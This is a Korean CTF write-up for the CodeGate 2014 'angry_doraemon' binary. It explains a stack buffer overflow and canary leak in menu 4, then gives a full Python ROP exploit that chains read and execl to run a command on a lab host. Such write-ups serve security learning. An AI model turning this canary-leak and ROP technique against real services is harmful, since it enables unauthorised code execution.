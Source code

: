 # angry_doraemon
### CodeGate 2014
***angry draemon은 코드게이트 2014 문제입니다!***

angry_doraemon을 실행하여 들어가 보면, 처음 2초 기다리라는 말과 함께 1~5까지 선택지가 나옵니다.

![Alt text](https://github.com/Funniest/System-study/blob/master/angry_doraemon/img/Main.PNG)

여기서 취약한 메뉴의 번호는 4번 입니다. 

![Alt text](https://github.com/Funniest/System-study/blob/master/angry_doraemon/img/Menu_4.PNG)

4번에 들어가서 자세히 보면,

sub esp, 38 -> 0x38만큼 버퍼 생성

[ebp+buf] -> 입력 버퍼는 0x16부터 시작

[ebp+var_C] -> Canary

즉 22만큼 길이를 가지고 있습니다.

대충 정리해 보면 4[buf] + 6[unkonw?] + 4[canary] + 4[unkonw] + 4[fd]가 있습니다.

위의 buffer들 + SFP를하면 총 0x1A(26)만큼의 버퍼가 나오는데 read로 0x6E만큼 받아 오버플로우가 일어납니다.

└ read(fd, buf, 0x6E)

이제 익스플로잇 가젯들을 정리해보면
```
1. Canary 카나리
2. read_plt
3. execl_plt -> system함수를 leak해서 구해도 되지만 execl이 있어 그냥 사용하엿습니다.
4. pppr
5. bss 섹션
```
이 필요합니다.

익스플로잇 순서는
```
1. canary를 leak합니다.
2. 익스플로잇에 필요한 가젯들을 구합니다.
3. 위 가젯들을 이용하여 익스플로잇 합니다.
       └ read_plt를 이용하여 /bin/ls\x00을 씁니다.
       └ raed_plt를 이용하여 /bin/ls\x00 뒤에 ls명령어를 씁니다.
       └ 그 후 execl을 이용하여 1번인자로 /bin/ls와 2번인자로 ls를 주고 실행합니다.
```

### 소스코드
Ubuntu 15 LTS 32bit 환경에서 테스팅 해보았습니다.
```
from socket import *
from struct import *
import time

p = lambda x: pack("<L", x)
up = lambda x: unpack("<L", x)[0]

def sendline(str) :
    s.send(str + "\n")

s = socket(AF_INET, SOCK_STREAM)
s.connect(('192.168.228.138', 8888))

bss = 0x804b080
write_plt = 0x80486E0
read_plt = 0x8048620
execl_plt = 0x8048710
pppr = 0x8048b2c
canary = 0xeede2600

cmd = "ls"
file = "/bin/ls" + '\x00'

print "[*]Exploit!"
print s.recv(1024)
time.sleep(3)
print s.recv(1024)

sendline('4')
print s.recv(1024)

#canary leak
'''
payload = ''
payload += 'y' + 'A' * 10
s.send(payload)

data = s.recv(1024)
print data
canary = "\x00" + data.split("AAAAAAAAAA")[1][0:3]
print "canary : " + hex(up(canary))

print "[+]END..."
s.close()
'''

#buffer overflow
payload = ''
payload += 'y' * 10
payload += p(canary) 
payload += 'A' * 12
#"/bin/sh" read
payload += p(read_plt)
payload += p(pppr)
payload += p(0x04) #fd
payload += p(bss)
payload += p(len(file) + 1)
#"ls" read
payload += p(read_plt)
payload += p(pppr)
payload += p(0x04) #fd
payload += p(bss + len(file) + 1)
payload += p(len(cmd))
#execl
payload += p(execl_plt)
payload += p(pppr)
payload += p(bss)
payload += p(bss + len(file) + 1)
payload += p(0x00)

s.send(payload)

s.send(file)
s.send(cmd)
print s.recv(1024)

sendline('6')
s.close()
```
